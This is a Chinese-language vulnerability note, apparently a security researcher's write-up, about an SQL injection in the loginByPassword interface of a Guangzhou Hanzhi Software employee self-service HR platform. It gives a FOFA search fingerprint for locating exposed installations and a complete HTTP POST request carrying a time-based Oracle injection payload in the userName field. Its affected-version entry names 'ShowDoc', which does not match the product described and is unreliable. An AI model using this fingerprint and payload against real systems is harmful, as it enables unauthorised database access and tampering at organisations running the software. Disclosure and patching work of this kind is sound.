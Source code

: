 # 员工自助平台loginByPassword存在SQL注入漏洞

# 一、漏洞简介
 广州翰智软件有限公司员工自助平台是指该公司为其员工提供的一种在线平台，旨在提高员工的工作效率、简化人力资源管理流程、增强员工的自主权和满意度。广州翰智软件有限公司员工自助平台 loginByPassword接口处存在SQL注入漏洞，恶意攻击者可能会利用此漏洞修改数据库中的数据，例如添加、删除或修改记录，导致数据损坏或丢失。  

# 二、影响版本
+ ShowDoc

# 三、资产测绘
+ fofa`<font style="color:rgb(199, 37, 78);">body="./static/hrfonts/iconfont.css"</font>`
+ 特征

![1717127090648-66b3e7cf-d1a8-4fc5-8007-a4fdcde6ee9f.png](./img/nEpGZuhTscZgPPDk/1717127090648-66b3e7cf-d1a8-4fc5-8007-a4fdcde6ee9f-326976.png)

# 四、漏洞复现
```rust
POST /hrssc/portal/plantform/loginByPassword HTTP/1.1
Host: 
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 40
Connection: close

{"userName":"admin' AND 8383=DBMS_PIPE.RECEIVE_MESSAGE(CHR(76)||CHR(98)||CHR(97)||CHR(122),5)-- eWnt","password":"admin"}
```

![1717127299072-04b69d65-65a2-42cc-a9e7-ec94f961e688.png](./img/nEpGZuhTscZgPPDk/1717127299072-04b69d65-65a2-42cc-a9e7-ec94f961e688-403036.png)



> 更新: 2024-06-01 11:14:22  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gy1kmhftuc02g8h8>